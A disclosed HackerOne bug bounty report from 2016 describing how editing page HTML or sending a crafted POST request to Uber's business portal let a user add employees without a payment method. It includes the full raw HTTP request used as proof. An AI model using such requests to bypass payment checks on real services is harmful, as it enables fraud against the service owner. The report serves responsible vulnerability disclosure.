 # Can add employee in business.uber.com without add payment method

## Report Details
- **Report ID**: 153175
- **URL**: https://hackerone.com/reports/153175
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-22T14:13:47.992Z
- **Disclosed**: 2016-07-26T00:27:07.175Z

## Reporter
- **Username**: severus
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
Dear Uber,
I found that modify html from `https://business.uber.com/organization/org-id/employees` can make I create employee without adding payment method.

Step to reproduce:
1. Edit html, remove overlay alert.
2. Create employee in website.

Or:  Use post form:
```
POST /server/organizations/58e3914e-e60f-485d-a3be-1fb7638d648d/employee_invites/bulk_create HTTP/1.1
Host: business.uber.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
x-csrf-token: 1469195077-01-flUszz7Jhwu_gKt84FTlyi-lW3MnyN9eZ4aqQLonGYU
Content-Type: application/json
Referer: https://business.uber.com/organization/58e3914e-e60f-485d-a3be-1fb7638d648d/employees
Content-Length: 70
Cookie: ----
[{"givenName":"Test","familyName":"Testing","email":"phuc@vnoss.org"}]
```

I attach image below as result
Best regard,
Severus

## Attachments
- 212207162110.jpg
- 212207162112.jpg
